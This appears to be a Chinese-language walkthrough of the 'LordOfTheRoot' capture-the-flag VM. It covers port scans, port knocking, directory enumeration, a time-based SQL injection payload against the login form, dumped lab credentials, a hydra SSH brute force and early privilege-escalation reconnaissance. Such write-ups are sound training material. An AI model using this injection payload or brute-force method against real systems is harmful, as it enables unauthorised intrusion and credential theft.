


## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p-  192.168.10.21
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-07 01:28 EDT
Nmap scan report for 192.168.10.21
Host is up (0.040s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 00:0C:29:EF:1F:52 (VMware)
```

只有一个22端口
扫了一下udp，也是啥都没有

### 端口敲门

直接ssh连接一下
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ ssh root@192.168.10.21
The authenticity of host '192.168.10.21 (192.168.10.21)' can't be established.
ED25519 key fingerprint is SHA256:Rz24fg01xp2jMdwk9c44ijnZAz1uaUlvRXX7QU+ERtI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.10.21' (ED25519) to the list of known hosts.

                                                  .____    _____________________________
                                                  |    |   \_____  \__    ___/\______   \
                                                  |    |    /   |   \|    |    |       _/
                                                  |    |___/    |    \    |    |    |   \
                                                  |_______ \_______  /____|    |____|_  /
                                                          \/       \/                 \/
 ____  __.                     __     ___________      .__                   .___ ___________      ___________       __
|    |/ _| ____   ____   ____ |  | __ \_   _____/______|__| ____   ____    __| _/ \__    ___/___   \_   _____/ _____/  |_  ___________
|      <  /    \ /  _ \_/ ___\|  |/ /  |    __) \_  __ \  |/ __ \ /    \  / __ |    |    | /  _ \   |    __)_ /    \   __\/ __ \_  __ \
|    |  \|   |  (  <_> )  \___|    <   |     \   |  | \/  \  ___/|   |  \/ /_/ |    |    |(  <_> )  |        \   |  \  | \  ___/|  | \/
|____|__ \___|  /\____/ \___  >__|_ \  \___  /   |__|  |__|\___  >___|  /\____ |    |____| \____/  /_______  /___|  /__|  \___  >__|
        \/    \/            \/     \/      \/                  \/     \/      \/                           \/     \/          \/
Easy as 1,2,3
root@192.168.10.21's password:
```
knock??
敲一下1 2 3

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT --min-rate 9999 -p-  192.168.10.21
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-07 01:31 EDT
Nmap scan report for 192.168.10.21
Host is up (0.040s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste
MAC Address: 00:0C:29:EF:1F:52 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 26.54 seconds
```

```bash

┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p22,1337  192.168.10.21
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-07 01:39 EDT
Nmap scan report for 192.168.10.21
Host is up (0.00053s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3c:3d:e3:8e:35:f9:da:74:20:ef:aa:49:4a:1d:ed:dd (DSA)
|   2048 85:94:6c:87:c9:a8:35:0f:2c:db:bb:c1:3f:2a:50:c1 (RSA)
|   256 f3:cd:aa:1d:05:f2:1e:8c:61:87:25:b6:f4:34:45:37 (ECDSA)
|_  256 34:ec:16:dd:a7:cf:2a:86:45:ec:65:ea:05:43:89:21 (ED25519)
1337/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 00:0C:29:EF:1F:52 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (93%), Linux 3.16 - 4.6 (93%), Linux 3.2 - 4.9 (93%), Linux 4.4 (93%), Linux 4.2 (90%), Linux 3.13 (90%), Linux 3.18 (89%), Linux 3.13 - 3.16 (87%), Linux 3.16 (87%), OpenWrt Chaos Calmer 15.05 (Linux 3.18) or Designated Driver (Linux 4.1 or 4.4) (87%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## web渗透


### 目录扫描
没什么结果
```bash
┌──(kali㉿kali)-[~/workspace]
└─$ gobuster  dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.10.21:1337
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.21:1337
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 321] [--> http://192.168.10.21:1337/images/]
/server-status        (Status: 403) [Size: 295]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```


访问一个不存在的文件时，源码会有注释提示
base64解码
解密密文
`/978345210/index.php`

### 目录扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ gobuster  dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.10.21:1337/978345210 -x php,txt,zip,rar,sql
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.10.21:1337/978345210
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,zip,rar,sql
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 485]
/.php                 (Status: 403) [Size: 296]
/login.php            (Status: 200) [Size: 0]
/profile.php          (Status: 302) [Size: 262] [--> index.php]
/logout.php           (Status: 302) [Size: 0] [--> index.php]
/.php                 (Status: 403) [Size: 296]
Progress: 1323360 / 1323366 (100.00%)
===============================================================
Finished
===============================================================
```
### sql时间盲注

在登录功能点存在时间注入

poc:1' AND (SELECT * FROM (SELECT(SLEEP(5)))ecMj)-- #
```bash
+----+------------------+----------+
| id | password         | username |
+----+------------------+----------+
| 1  | iwilltakethering | frodo    |
| 2  | MyPreciousR00t   | smeagol  |
| 3  | AndMySword       | aragorn  |
| 4  | AndMyBow         | legolas  |
| 5  | AndMyAxe         | gimli    |
+----+------------------+----------+
```
sqlmap得到如上数据
ssh连一下试试

### hydra爆破

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ hydra -L users -P pass 192.168.10.21 ssh
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-07 03:36:10
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://192.168.10.21:22/
[22][ssh] host: 192.168.10.21   login: smeagol   password: MyPreciousR00t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-07 03:36:32
```
得到一个ssh信息
login: smeagol   password: MyPreciousR00t

## 提权
```bash
smeagol@LordOfTheRoot:/SECRET$ ls -la
total 20
drwxr-xr-x  5 root root 4096 Sep 22  2015 .
drwxr-xr-x 23 root root 4096 Sep 22  2015 ..
drwxr-xr-x  2 root root 4096 May  7 01:48 door1
drwxr-xr-x  2 root root 4096 May  7 01:48 door2
drwxr-xr-x  2 root root 4096 May  7 01:48 door3
```
这里找到了三个文件，但是涉及到缓冲区溢出了

还有一种提取就是内核提取了
```bash
smeagol@LordOfTheRoot:/SECRET$ uname -a
Linux LordOfTheRoot 3.19.0-25-generic #26~14.04.1-Ubuntu SMP Fri Jul 24 21:18:00 UTC 2015 i686 athlon i686 GNU/Linux
```
